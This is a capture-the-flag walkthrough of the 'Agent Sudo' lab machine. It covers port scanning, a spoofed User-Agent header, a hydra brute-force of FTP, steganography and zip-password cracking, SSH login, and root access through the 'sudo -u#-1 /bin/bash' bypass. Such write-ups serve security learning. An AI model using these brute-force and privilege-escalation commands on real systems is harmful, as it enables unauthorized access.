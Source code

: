 # Agent Sudo

We'll start with our default nmap scan.

`nmap -sV -sC -O 10.10.15.235`

```21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ef:1f:5d:04:d4:77:95:06:60:72:ec:f0:58:f2:cc:07 (RSA)
|   256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)
|_  256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (EdDSA)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Annoucement
```


We'll check out the website first. It's very basic and the only info it gives us is:

> Dear agents,

> Use your own codename as user-agent to access the site.

> From,
> Agent R 

Let's run dirb against the site and see if there's any hidden pages.

`dirb http://10.10.15.235 /usr/share/wordlists/dirb/common.txt`

The dirb scan tells us the website is using php.

> ---- Scanning URL: http://10.10.15.235/ ----
> + http://10.10.15.235/index.php (CODE:200|SIZE:218)  

Let's run dirb again but this time with the `-X .php` option


`dirb http://10.10.15.235 /usr/share/wordlists/dirb/common.txt -X .php`

No hits.

Let's try and log into that FTP server we found earlier and see if there's anything interesting.

Well, we can't login anonymously. We need to find a username and password.

Going back to the website, it says "Use your own **codename** as user-agent to access the site...

Ok so let's try modifying our initial request with the help of Burp. The box is called Sudo, so I tried replacing the content of user-agent: with `Agent Sudo` (based on the boxes name) but that didn't seem to do anything. Taking a look at the hint it says we should try using `user-agent: C`. 

Once we modified the request we're redirected to http://10.10.15.235/agent_C_attention.php which tells us:

> Attention chris,

> Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak!

> From,
> Agent R 

We can assume we have a username now (chris) which we'll use to try and access the FTP service. We still need the password, so let's use hydra to try and brute-force it.

```hydra -v -l chris -P /usr/share/wordlists/SecLists/Passwords/Common-Credentials/best1050.txt ftp://10.10.15.235:21```

Nice, we found the password `crystal`

Let's login to the ftp server now.

In the root directory, there are 3 files.

> -rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
> -rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
> -rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png

Let's transfer the .txt file to our machine.

`get To_agentJ.txt`

It says:

> Dear agent J,

> All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It > shouldn't be a problem for you.

> From,
> Agent C

Let's transfer the rest of the files to our attack box since it looks like we'll need to do some steganography.

`steghide extract -sf cute-alien.jpg`

We need a passphrase, which according to the note is stored in the fake picture. We'll use binwalk to solve this.

`binwalk cutie.png -e`

Let's unzip the file that was extracted.

It's password protected. Let's use John The Ripper here to try and crack the file.

`zip2john 8702.zip > crackme`

and then `John crackme` gives us the password.

We'll unzip the file now with 7zip.

`7z x 8702.zip`

Now let's check out the contents of "To_agentR.txt"

> Agent C,

> We need to send the picture to 'QXJlYTUx' as soon as possible!

> By,
> Agent R

`QXJlYTUx` appears to be a base64 encoded string.

We'll decode it and use the decoded string to extract the files in cute-alien.jpg

`steghide -sf cute-alien.jpg`

And now we have a "message.txt" file we can read.

`cat message.txt`

Nice, we have an SSH password now for `james`

`ssh james@10.10.15.235`

We'll quickly grab the user flag from the home directory, and work on the next question.

> What is the incident of the photo called?

The hint says to use "Reverse Image search and Foxnews" so let's go ahead and to that.

Copy the file to our attackbox first.

`scp james@10.10.15.235:Alien_autospy.jpg .`

And let's use https://tineye.com/ to look the image up.

The title of the news article contains the answer to the question.

Now time for privesc...

`sudo -l` to check our sudo privileges

> User james may run the following commands on agent-sudo:
>    (ALL, !root) /bin/bash

So we can't run /bin/bash as root, but a little googling tells us there's an exploit available for this.

`sudo -u#-1 /bin/bash`

And now we have root.

We'll grab the root flag from the root directory, and work on the bonus question.

> (Bonus) Who is Agent R?

Well, the contents of root.txt end with

> By,
> DesKel a.k.a Agent R

Boom. Room complete.


